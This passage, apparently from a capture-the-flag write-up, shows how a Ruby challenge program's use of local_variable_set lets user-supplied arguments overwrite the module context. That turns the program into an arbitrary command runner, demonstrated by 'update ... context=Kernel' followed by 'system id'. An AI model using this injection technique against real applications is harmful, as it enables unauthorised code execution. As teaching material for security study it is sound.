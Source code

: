 ```ruby  
options.local_variable_set(option, value)  
```

is what is the problem! Why? Hm... how do you think the current module is set?
You guessed it - via the *local_variable_set* function!

We can see the relevant part here:

```ruby  
def switch_module(module_name)  
 if VALID_MODULES.include?(module_name)  
   ROOT_MODULE.local_variable_set :context, module_name  
 else  
   log "Invalid Module: #{module_name}"

   CommonCommands.available_modules  
 end  
end  
```

Once the module is switched, the function we want to call is fetched via
`get_singleton_method`:

```ruby  
command = Kernel.const_get(context).singleton_method(command_name)  
```

and called with our arguments:

```ruby  
# (...)  
 command.call(parameter, options)  
when parameter  
 command.call(parameter)  
else  
 command.call  
end  
```

So, let's write down what we know:  
- we have the `update` function that gets arguments  
- once arguments are parsed, each argument is set via `local_variable_set`  
- we can pass any arguments we want  
- the `context` set with `local_variable_set` is what determines where the function is called from  
- we control what function is executed

Hence: we can call any function we want from any module we imagine.

Let's check this with the `update` command and `Kernel.system`:

```  
> switch_module FirmwareCommands

> update test context=Kernel checksum=555 password=lol  
Checksum Invalid or Password incorrect! Can't update Firmware.

> system id  
uid=1000(ctf) gid=1000(ctf)

>  
```
